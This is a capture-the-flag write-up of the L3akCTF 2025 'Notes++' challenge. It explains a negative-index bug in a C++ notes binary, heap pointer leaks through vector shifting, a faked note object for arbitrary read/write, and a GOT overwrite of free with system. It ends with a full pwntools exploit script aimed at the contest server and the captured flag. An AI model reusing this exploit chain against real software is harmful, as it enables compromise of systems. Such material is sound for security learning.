

# L3akCTF 2025 - Notes++
`Yet another notes app. Now written in C++ for more memory safety.`
## Introduction


At the start of the CTF, this challenge was worth 500 points with 0 solves (currently 482 points / 21 solves).
We’re given three files:


Running `checksec` quickly shows that all the default mitigations are enabled:



Looks scary, right? But usually, when seeing full mitigations, the vulnerability is going to give me some really strong primitives.

## Program Overview
Running the binary shows a basic menu:


We can create three types of notes:
* **RandomNote** – content is randomly chosen from a fixed array.
* **FixedNote** -  we can input up to 40 bytes.
* **DynamicNote** - we can input as much as we want.

We can also delete notes and list them. It will probably come in handy later :)

## Reversing
I used IDA to reverse the binary. Looking at `main`, most of the logic is in there.
We immediately see a `std::vector<Note*>` and 6 `while` loops:


> **_NOTE:_** In C++, `this` is always passed as the first parameter to class methods.

> **_ANOTHER NOTE:_** Disassemblers often misinterpret function arguments, especially with C++. Disassembling the function itself will usually tell you what’s actually going on. For example, `argv` and `envp` are not really passed into the `std::vector` constructor here.

Each while loop scope is responsible for handing a choise of the user. We can also see that when creating a note it is added to the `notes_vector`.


We also notice that each Note class (Random, Fixed, Dynamic) is inherited from a base Note class, because the Note constructor is called in the other constructors.


If we look at the code of actually accessing a note and doing something with it like displaying the content of a note for example, We pass an index inside the vector and the program calls the displayContent function inside of the vtable of the object.

```c++
if ( user_menu_input != DISPLAY_NOTE_CONTENT )
    break;
std::operator<<<std::char_traits<char>>(&std::cout, "Enter note index to display content: ");
std::istream::operator>>(&std::cin, &index_to_display);
std::numeric_limits<long>::max();
std::istream::ignore((std::istream *)&std::cin, 0x7FFFFFFFFFFFFFFFLL, 10);
v10 = index_to_display;
if ( v10 >= std::ssize<std::vector<Note *>>(notes_vector) )
{
    std::operator<<<std::char_traits<char>>(&std::cout, "Invalid index.\n");
}
else
{
v11 = **(_QWORD **)std::vector<Note *>::operator[](notes_vector, index_to_display);
if ( (((v11 - (_QWORD)first_vtable) << 58) | ((unsigned __int64)(v11 - (_QWORD)first_vtable) >> 6)) > 3 )
    __asm { ud1     eax, dword ptr [eax+2] }
(*(void (**)(void))(v11 + 16))();     // display_note
}
```

We can also spot the wierd condition that is being checked before using the vtable of the object. This check verifies that the vtable pointer of the object is within 0xC0 bytes from the `first_vtable`, and aligned at 0x40-byte intervals.
If we take a look at the memory we can see that the range between `first_vtable` and `first_vtable + 0xC0` is just the vtables of the notes. Basicly this check just ensures that the vtable of the object is an actual valid note vtable. This means we could not fake a note object with a fake vtable because that would lead to `ud1` being executed which crashes the program :(

But wait, can you spot something strange about the input validation? Why are they using `std::ssize(notes_vector)` to get the size?
> **_NOTE:_** `std::ssize` is signed size wich returns int64 and not unsigned int64

This is very strange but it gives us a lead to the vulnerability, when looking at the `>=` operation we can notice that the opcode `jge` is used (signed operator) to check the index! This means we can pass a **negative index!** Lets check what happens when we pass -1 as the index:


It works! But how can we exploit this? 

the `index_to_display` is an `int32`, so we can’t wrap around with a large negative number. 

Also we are accessing a `Note*` vector with vtable validations so we need a valid `Note*` located **before** the vector in memory.

Let’s talk about `std::vector` for a second before we continue, so we will have a better understanding of what to look for. It allocates elements contiguously on the heap, so a `std::vector<Note*>` means we expect an array of `Note*`s in the heap, and each one points to a heap-allocated Note.

So let’s look in GDB. I created 5 `FixedNote`s and broke on the `[]` operator to get the vector’s data address:


We will except to see `Note*` → `vtable*` → FixedNote methods


And sure enough we see exactly that! Also, notice that the vector data is at `0x000555555576c80` and the last note we created is at `0x000555555576c40` these are very close! If we were to create more notes we would collide with the vector data so the next notes will probably be allocated after the vector data.

> **_YET ANOTHER NOTE:_** In this write up I will not get into spesific libc heap internals and all of the information about the heap behaviour we will get using blackbox methods.

Lets allocate 2 more notes and see what happens:


Look at that! The next note is actually allocated after our vector data! 

Now, what happens if we keep allocating more notes until the vector overlaps with existing notes? Let’s allocate 5 more:


The vector got reallocated forward in the heap!
Let’s check the old vector location:


It wasn’t wiped! The first two entries are broken, but the rest are still valid `Note*`s. That means we can access the old vector data using negative indices. But remember the actual data of the old vector and the current vector is practicly the same, the notes did not reallocate so both the old data and the new data sill point to the same notes.

Let’s test accessing note 3 (index 2) via negative index. By calculating we get index -40:


We manage to do that! now lets trigger a UAF, lets delete note 3 using -40 and then access it using index 2:


Wait… we got note 4’s content? Why?

Here’s the delete logic:
```c++
if ( user_menu_input != DELETE_NOTE )
    break;
std::operator<<<std::char_traits<char>>(&std::cout, "Enter note index to delete: ");
std::istream::operator>>(&std::cin, &index_to_delete);
std::numeric_limits<long>::max();
std::istream::ignore((std::istream *)&std::cin, 0x7FFFFFFFFFFFFFFFLL, 10);
v12 = (int)index_to_delete;
if ( v12 >= std::ssize<std::vector<Note *>>(notes_vector) )
    goto LABEL_38;
v13 = *(_QWORD *)std::vector<Note *>::operator[](notes_vector, (int)index_to_delete);
if ( v13 )
{
    if ( (((*(_QWORD *)v13 - (_QWORD)first_vtable) << 58) | ((*(_QWORD *)v13 - (_QWORD)first_vtable) >> 6)) > 3 )
        __asm { ud1     eax, dword ptr [eax+2] }
    (*(void (**)(void))(*(_QWORD *)v13 + 8LL))();// note_destractor
}
v18 = std::vector<Note *>::begin(notes_vector);
v19 = __gnu_cxx::__normal_iterator<Note **,std::vector<Note *>>::operator+(&v18, (int)index_to_delete);
__gnu_cxx::__normal_iterator<Note * const*,std::vector<Note *>>::__normal_iterator<Note **>(&v20, &v19);
std::vector<Note *>::erase((__int64)notes_vector, v20);
v14 = std::operator<<<std::char_traits<char>>(&std::cout, "Note ");
v15 = std::ostream::operator<<(v14, index_to_delete);
std::operator<<<std::char_traits<char>>(v15, " deleted.\n");
```
Turns out, `std::vector::erase` shifts elements left after deleting. So accessing index 2 gives us what was at index 3.

That’s expected. So we got exactlly the same result as if we were to delete a normal index and then access it? Not exactly, if we will now access the object at index 0 we will get the second note and the first note is now located at index -1. 

But what excatly this allows us to do? This by it self wont give us much, we could access index 1 to trigger the UAF but we know the heap allocator destorys the first 0x16 bytes of an allocation so we would just get a seg fault. Instead lets take a closer look at the delete code, If the `notes_vector[index]` returns 0 it will not try to call the destractor but it will still call `std::vector::erase` which will do the shift. This will allow us to shift a lot of the data on the heap without crashing!

### Getting Our First Leak
Let’s inspect a `DynamicNote`. Its structure looks like:
```c++
struct DynamicNote {
    void* vtable;
    std::string content;
}
```
And `std::string` roughly looks like this:
```c++
struct std::string {
    char* data;
    size_t size;
    union {
        size_t capacity;
        char small_data[0x16];
    };
};
```
By playing with the string I learned that if the content is small, it’s stored inline. If it's large, `data` points to a heap buffer, and the first 0x8 bytes of `small_data` hold the capacity.

Looking at a DynamicNote in memory:


We can see that the content pointer actually points inside of the allocation,
I also chose the last note that was allocated right before the current vector data.

With all of this new knowledge we could shift the heap to fit the vector data inside of the DynamicNote so that 0x91 will fall as the string size and the vector data will fall inside of the string inline data.

Lets now "erase" the zeros that come after that object. by calculating the indexes we get `-4`, we will erase that index 3 times. lets look at the memory now:


Perfect! Let’s display that note (Remember we shifted the heap so now the index to that note has changed):


We’ve got heap pointers!

So now we have a leak, but we would also like to get a .data leak to be able to fake a note object with a valid vtable. We can repeat the same steps with a note that’s allocated behind another note, so we capture its vtable inside the string.

### Getting Arbitrary Read/Write
Now that we have heap and binary leaks, we can calculate offsets and fake a `DynamicNote` like this:

```[vtable ptr][data ptr][size][capacity]```

We embed this inside a real `DynamicNote` that is allocated before the vector data, then we will access the conent of the real `DynamicNote` because its conent points to our fake note (It is a Note*). using display content we can read 0x1000 bytes and using set content we can write 0x1000 bytes.

### Winning
The hard part of the ctf is over, most of the times when you have arbitrary read/write and so many leaks it is not hard to achive RCE. to achive jump I checked the the libc.so and libstdc++.so from the docker (the docker is matching the remote) and saw it had partial RELRO, meaning I could overwrite its GOT.
I leaked the libstdc++ using the GOT of the binary, then I overwrote the free function inside of the GOT of libstdc++ to point to system, then I freed a DynamicNote with the conent of `/bin/sh` and finally:
```bash
$ ls
chall
flag.txt
$ cat flag.txt
L3AK{cl4n6_cf1_15_m057ly_600d}
```

### Exploit script
<details>
  <summary>Exploit</summary>

```python
from pwn import *
from struct import unpack, pack

def recv_menu(p):
    try:
        sleep(0.2)
        print(p.recv(0x100))
    except Exception as e:
        pass

def select(p, option: int, index=0xffffffffff, data="", *, recv=True):
    p.sendline(f"{option}")
    recv_menu(p)
    if index != 0xffffffffff:
        p.sendline(f"{index}")
        if recv:
            recv_menu(p)
    if data:
        p.sendline(data)
        recv_menu(p)


def leak_using_data(p, idx):
    select(p, 4, idx, recv=False)
    a = p.recv(0x100)
    return unpack("<Q", a[0xe:0xe+8])[0]


def main():
    # context.log_level = 'debug'
    # p = process("./chall")
    p = remote("34.45.81.67", 16001)

    # pwndbg syntax
    # gdb.attach(p, gdbscript="""
    # bp main+0x41d
    # """)

    recv_menu(p)

    # create 6 dummy fixed
    for i in range(6):
        select(p, 1, 2)

    # dynamic
    select(p, 1, 3)

    select(p, 1, 3)

    # create another random book to realloc vector<Note*>
    select(p, 1, 3)

    # shift dynamic paddings to leak heap
    select(p, 5, -4)
    select(p, 5, -4)
    select(p, 5, -4)

    first_note_heap_ptr = leak_using_data(p, 5)

    print(f"first note on heap: {hex(first_note_heap_ptr)}")

    # allocate random
    for _ in range(10):
        select(p, 1, 2)

    # shift dynamic paddings to leak vtable address
    select(p, 5, -8)
    select(p, 5, -9)
    select(p, 5, -10)

    dynamic_vtable_ptr = leak_using_data(p, 1)
    print(f"dynamic note vtable ptr: {hex(dynamic_vtable_ptr)}")
    print(f"first note on heap: {hex(first_note_heap_ptr)}")

    # allocate dynamic note that will be used for faking another dynamic node
    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", dynamic_vtable_ptr+808) + pack("<Q", 0x300))

    # -51 to access the fake note inside the first note
    memmove = leak_using_data(p, -51)

    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", dynamic_vtable_ptr+776) + pack("<Q", 0x300))
    left_shift_std = leak_using_data(p, -51)

    libstd_base = left_shift_std - 0x157600
    libstd_got = libstd_base + 0x277030

    libc_base = memmove - 0x2A200
    system = libc_base + 0x58750
    print(f"libc_base: {hex(libc_base)}")
    print(f"libstd++_base: {hex(libstd_base)}")
    print(f"libstd got.plt: {hex(libstd_got)}")
    print(f"system: {hex(system)}")

    p.interactive()

    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", libstd_base+0x277C48) + pack("<Q", 0x10000) + pack("<Q", 0x10000))
    select(p, 3, -51, pack("<Q", system))

    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", first_note_heap_ptr) + pack("<Q", 0x10000) + pack("<Q", 0x10000))
    select(p, 3, -51, b"/bin/sh")

    select(p, 5, -51)


    p.interactive()

        


if __name__ == "__main__":
    main()
```
</details> 

#### About the creator
I was part of the team 0x1A, that consisted of me and my friend. We really enjoyed the CTF and especially this challange which was pretty hard. Big Thanks to @White the creator of the challange!